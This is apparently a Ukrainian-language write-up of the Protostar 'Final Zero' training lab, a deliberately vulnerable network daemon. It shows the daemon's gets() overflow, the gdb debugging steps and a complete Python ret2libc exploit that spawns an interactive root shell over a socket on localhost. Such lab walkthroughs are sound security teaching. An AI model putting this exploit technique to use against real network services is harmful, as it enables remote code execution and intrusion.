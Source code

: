 ## [Final Zero](http://exploit.education/protostar/final-zero/)

Даний рівень поєднує переповнення стека та мережеве програмування для віддаленого переповнення.

Переходимо у директорію із завданням:  
```cd /opt/protostar/bin/```

Вихідний код:  
```c
#include "../common/common.c"

#define NAME "final0"
#define UID 0
#define GID 0
#define PORT 2995

/*
 * Read the username in from the network
 */

char *get_username()
{
  char buffer[512];
  char *q;
  int i;

  memset(buffer, 0, sizeof(buffer));
  gets(buffer);

  /* Strip off trailing new line characters */
  q = strchr(buffer, '\n');
  if(q) *q = 0;
  q = strchr(buffer, '\r');
  if(q) *q = 0;

  /* Convert to lower case */
  for(i = 0; i < strlen(buffer); i++) {
      buffer[i] = toupper(buffer[i]);
  }

  /* Duplicate the string and return it */
  return strdup(buffer);
}

int main(int argc, char **argv, char **envp)
{
  int fd;
  char *username;

  /* Run the process as a daemon */
  background_process(NAME, UID, GID); 
  
  /* Wait for socket activity and return */
  fd = serve_forever(PORT);

  /* Set the client socket to STDIN, STDOUT, and STDERR */
  set_io(fd);

  username = get_username();
  
  printf("No such user %s\n", username);
}
```

Щоб перевірити як працює код можна ввести наступну команду:  
```nc 127.0.0.1 2995```  
 
Передамо у програму замість username дані, які викличуть переповнення буфера:  
python -c "print('a' * 510 + '\x00' + 'aaaabbbbccccddddeeeeffffgggg')" | nc 127.0.0.1 2995

Після цього у директорії /tmp/ має згенеруватися дамп ядра. Завантажимо його та перевіримо стан регістрів:  
```
gdb final0 /tmp/core.11.final0.1638
...
info registers
x/32wx $esp-8
```

Регістр ```EBP``` має значення ```0x66656565``` що відповідає 'eeeef' у реверсі.
Отже, для перезапису адреси повернення нам необхідно передати програмі 'a' * 510 + '\x00' + 'aaaabbbbccccddddeeeef' (532 байти).

```
python -c "print('a' * 510 + '\x00' + 'aaaabbbbccccddddeeeeffffgggg')" | nc 127.0.0.1 2995
...
pidof final0
cat /proc/1425/maps
gdb -p `pidof final0`
c
set follow-fork-mode child
c
python -c "print('a' * 510 + '\x00' + 'aaaabbbbccccddddeeeeffffgggg')" | nc 127.0.0.1 2995 # у іншій консолі 
r
c
q
```
  
```
gdb -p `pidof final0`
info functions @plt
# 0x08048c0c
```
![execve](execve.png)

Отже, маємо ```0x08048c0c```

```
pidof final0
# 1425
cat /proc/1425/maps
# b7e97000 - навпроти /lib/libc-2.11.2.so
```

![/lib/libc](lib_libc.png)

```
grep -R -a -b -o /bin/sh /lib/libc.so.6
#1176511:/bin/sh
```

![/bin/sh](bin_sh.png)

Маючи усі необхідні дані можемо писати код експлойту:  
```nano exploit.py```  

```python
import struct
import socket
import telnetlib

HOST = '127.0.0.1'
PORT = 2995

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))

padding = 'a' * 510 + '\x00' + 'aaaabbbbccccddddeeeef'
execve = struct.pack('I', 0x08048c0c)
binsh = struct.pack('I', 1176511 + 0xb7e97000)

exploit = padding + execve + 'AAAA' + binsh + '\x00' * 8

s.send(exploit + '\n')
s.send('id\n')
print(s.recv(1024))

s.send('uname -a \n')
print(s.recv(1024))

t = telnetlib.Telnet()
t.sock = s
t.interact()
```

Запускаємо експлойт і все готово:  
```python exploit.py```

![Shell test](shell_test.png)